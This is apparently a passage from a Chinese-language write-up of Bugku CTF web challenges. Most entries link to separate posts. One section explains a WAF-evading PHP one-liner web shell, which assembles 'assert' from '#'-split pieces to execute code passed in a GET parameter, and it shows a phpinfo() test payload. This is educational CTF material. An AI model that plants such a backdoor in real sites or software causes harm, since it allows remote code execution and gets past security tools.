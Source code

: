 ## 18-20另写一篇

## 21.秋名山老司机

另转一篇，文章写得太好了。https://blog.csdn.net/s11show_163/article/details/103278842

## 22.web6

动态flag在响应头中：另写一篇https://blog.csdn.net/s11show_163/article/details/103280991

## 23.cookies欺骗

另写一篇 https://blog.csdn.net/s11show_163/article/details/103285818

## 24.never give up

https://blog.csdn.net/s11show_163/article/details/103286101

## 25-29打不开

## 26.过狗一句话

打不开但是原理比较重要，去回顾[bypass安全狗绕过](https://blog.csdn.net/s11show_163/article/details/104548569)的相关知识

用php的系统函数，突破低权限。

题目来自于bugku的"过狗一句话"，这道题目有接近2100人做出来，可是网上的wp并没有给出确切的原理，所以在此借这一道题目，抛砖引入。

### 一丶代码和分析

```
<?php 

    $poc="a#s#s#e#r#t"; 

    $poc_1=explode("#",$poc);  

    $poc_2=$poc_1[0].$poc_1[1].$poc_1[2].$poc_1[3].$poc_1[4].$poc_1[5];  

    $poc_2($_GET['s']) 

    ?> 
```

### 二丶随手测试phpinfo()

`assert()`对传入的字符串当作php代码执行，所以我们第一个payload:

`http://ip/?s=phpinfo()`，相当于执行代码

```
assert(phpinfo()); 
```

